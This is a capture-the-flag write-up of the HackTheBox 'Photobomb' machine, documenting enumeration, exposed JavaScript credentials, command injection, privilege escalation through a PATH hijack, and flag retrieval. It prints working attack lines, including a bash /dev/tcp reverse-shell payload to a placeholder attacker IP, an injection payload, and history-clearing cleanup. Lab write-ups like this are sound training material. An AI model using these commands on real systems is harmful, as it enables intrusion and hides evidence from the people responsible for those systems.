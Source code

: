# HTB – Photobomb (Linux, Easy)

## Table of Contents
- General Info
- Objectives
- Enumeration
- Exploitation
- Initial Shell
- Privilege Escalation
- Post-Exploitation Proof
- Cleanup
- Key Takeaways
- Conclusion

---

## General Info
- **Machine name:** Photobomb  
- **Platform:** HackTheBox  
- **OS:** Linux (Ubuntu)  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: user + root)

---

## Objectives
- Identify entry points through enumeration  
- Exploit vulnerable web functionality to gain a foothold  
- Escalate privileges to root via misconfigured sudo script  

---

## Enumeration

### Nmap Scan
Command: nmap -sC -sV -oA nmap/photobomb <target_IP>  
Result:  
- 22/tcp – OpenSSH 8.9p1 (Ubuntu 3ubuntu0.1)  
- 80/tcp – nginx 1.18.0 (Ubuntu)  

### Virtual Host
The web server expects hostname photobomb.htb.  
Added entry in /etc/hosts:  
<target_IP>    photobomb.htb  

*Figure 1 – Nmap scan results*  
![Figure 01 — Nmap scan](assets/screenshots/01_nmap.png)

*Figure 2 – /etc/hosts modification*
![Figure 02 — Hosts / gobuster hint](assets/screenshots/02_hosts.png)

---

## Exploitation

### Discovered Credentials
Viewing page source (view-source:http://photobomb.htb) revealed photobomb.js.  
Inside the code, static credentials were present:  
- Username: pH0t0  
- Password: b0Mb!  
Login URL: http://photobomb.htb/printer  

*Figure 3 – Credentials exposed in photobomb.js*
![Figure 03 — JS credentials (photobomb.js)](assets/screenshots/04_js_creds.png)

### Command Injection
POST request to /printer is vulnerable to command injection in parameter `filetype`.

Example payload: `filetype=png;sleep 5;`  
Response time increased by ~5 seconds, confirming execution of system command. 

*Figure 4 – Burp Suite request showing command injection*
![Figure 04 — Command injection in Burp](assets/screenshots/05_command_injection.png)

### Reverse Shell
Payload: filetype=jpg;bash -i >& /dev/tcp/<attacker_IP>/<attacker_port> 0>&1  
Listener: nc -lvnp 9001  
Result: reverse shell as user wizard.  

*Figure 5 – Reverse shell established as wizard*
![Figure 05 — Reverse shell](assets/screenshots/05b_reverse_shell.png)

---

## Initial Shell
Stabilized with:  
python3 -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  

*Figure 6 – Stabilized wizard shell*
![Figure 06 — Stabilized shell](assets/screenshots/06_stabilized_shell.png)

---

## Privilege Escalation

### Sudo Permissions
Checked with: sudo -l  
Output: (root) SETENV: NOPASSWD: /opt/cleanup.sh  

*Figure 7 – Sudo permissions for cleanup.sh*
![Figure 07 — Sudo permissions](assets/screenshots/07_sudo_permissions.png)

### Script Analysis
Content of /opt/cleanup.sh:  
#!/bin/bash  
. /opt/.bashrc  
cd /home/wizard/photobomb  
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]; then  
  /bin/cat log/photobomb.log > log/photobomb.log.old  
  /usr/bin/truncate -s0 log/photobomb.log  
fi  
find source_images -type f -name '*.jpg' -exec chown root:root {} \;  

Observation: find is called without absolute path → vulnerable to $PATH hijack.  

### Exploiting PATH Hijack
Steps:  
cd /dev/shm  
echo -e '#!/bin/bash\nbash' > find  
chmod +x find  
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh  
Result: root shell obtained.  

*Figure 8 – Root shell obtained via PATH hijack*
![Figure 08 — Root shell via PATH hijack](assets/screenshots/08_root_shell.png)

---

## Post-Exploitation Proof
User flag: cat /home/wizard/user.txt  
Root flag: cat /root/root.txt  

*Figure 9 – User flag*  
![Figure 09 — User flag (masked)](assets/screenshots/09_user_flag.png)
Output: `HTB{redacted}`  

*Figure 10 – Root flag*  
![Figure 10 — Root flag (masked)](assets/screenshots/10_root_flag.png)
Output: `HTB{redacted}`

---

## Cleanup
rm -f /dev/shm/find  
history -c  
exit  

---

## Key Takeaways
- Hidden credentials in JS can expose login details.  
- Command injection in poorly validated parameters leads directly to RCE.  
- Always enumerate sudo -l for privilege escalation opportunities.  
- $PATH hijacking is a common and dangerous misconfiguration.  

---

## Conclusion
The Photobomb machine demonstrated a straightforward attack chain:  
- Enumeration revealed a vhost and JS credentials.  
- Exploitation via command injection granted shell access as wizard.  
- Privilege escalation through sudo misconfiguration led to root.  
- Both user and root flags were successfully retrieved.  

This lab emphasizes the importance of code review, secure credential handling, and proper path usage in privileged scripts.
